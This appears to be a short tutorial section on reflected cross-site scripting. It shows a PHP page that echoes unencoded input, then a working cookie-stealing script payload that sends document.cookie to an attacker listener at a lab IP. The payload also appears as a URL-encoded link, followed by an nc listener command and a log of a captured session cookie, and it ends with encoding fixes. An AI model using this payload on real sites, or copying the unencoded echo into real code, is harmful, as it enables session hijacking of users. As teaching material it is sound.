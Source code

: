 #### 1.2. XSS (reflected) in a nutshell

Site: `vulnerable.com`
```php
<?php
// no input validation or output encoding
$name = $_GET['name'];
echo "Hello " . $name;
```
Regular use:
```
$ http http://vulnerable.com/?name=David
```

Detection (reflected XSS):
```
$ http "vulnerable.com/?name=<h1>test" -b
Hello <h1>test
```
Output (response) contains the original user-input as HTML code. This example allows `<script>` tags, so JS code to be run on the behalf of the user, once the response is fully loaded in the browser.

Payload for cookie stealing:
```html
<script>window.onload=function(){window.location="http://192.168.209.146:8081?cookie="%2bdocument.cookie;}</script>
```
Where `192.168.209.146:8081` is the attacker's listener/cookie grabber (`nc -nlvp 8081`).


HTTP request (URL encoded payload - must be executed in the context of the victim's browser while authenticated):
```
http://vulnerable.com/?name=%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%3d%66%75%6e%63%74%69%6f%6e%28%29%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%32%30%39%2e%31%34%36%3a%38%30%38%31%3f%63%6f%6f%6b%69%65%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%7d%3c%2f%73%63%72%69%70%74%3e
```
Authenticated user needs to click on the URL.

Sever log on attacker's end:
```
Listening on 0.0.0.0 8081
Connection received on 192.168.209.1 62754
GET /?cookie=PHPSESSID=gujal0anhtviba58ekqm4nik60;%20security=low HTTP/1.1
...
```
Attacker will take the `PHPSESSID` cookie and load it in their browser to "override" the current user session. 
Website must allow concurrent user sessions, from different `User-Agent` or WAN IP address.

Quick fixes:

- always apply encoding on the user input:
```php
$name = htmlentities($_GET["name"]);
// or
$name = urlencode($_GET["name"]);
```
